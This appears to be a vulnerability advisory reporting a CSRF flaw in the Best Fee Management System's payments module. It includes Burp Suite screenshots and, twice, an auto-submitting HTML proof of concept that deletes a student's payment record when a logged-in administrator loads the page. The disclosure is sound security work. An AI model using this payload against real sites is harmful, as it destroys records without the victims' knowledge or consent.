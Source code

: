 # Summary
SourceCodester Best Fee Management System Project has a CSRF vulnerability in `/click_fees/index.php?page=payments`, which allows attackers to trick administrators who are logged into the site to delete students' payment information.

# Details
In url : `/click_fees/index.php?page=payments`
![image](https://github.com/user-attachments/assets/a996a0a5-feca-4b11-b4a6-d4f9c7b5c157)



Choose module `Courses && Fees` and choose option `delete`:
![image](https://github.com/user-attachments/assets/5330fc41-a4b3-44cb-867a-c7c35a9185c2)


Use burpsuite to intercept, finding that there's no csrf token for protection:
![image](https://github.com/user-attachments/assets/51b33118-c6cc-4f57-86ce-1ae8255e4926)



CSRF PoC:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://fee:84/click_fees/ajax.php?action=delete_payment" method="POST">
      <input type="hidden" name="id" value="5" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![CSRF4_PoC.gif](https://github.com/N0zoM1z0/Vuln-Search/blob/main/CSRF4_PoC.gif)



# PoC
CSRF PoC:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://fee:84/click_fees/ajax.php?action=delete_payment" method="POST">
      <input type="hidden" name="id" value="5" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![CSRF4_PoC.gif](https://github.com/N0zoM1z0/Vuln-Search/blob/main/CSRF4_PoC.gif)

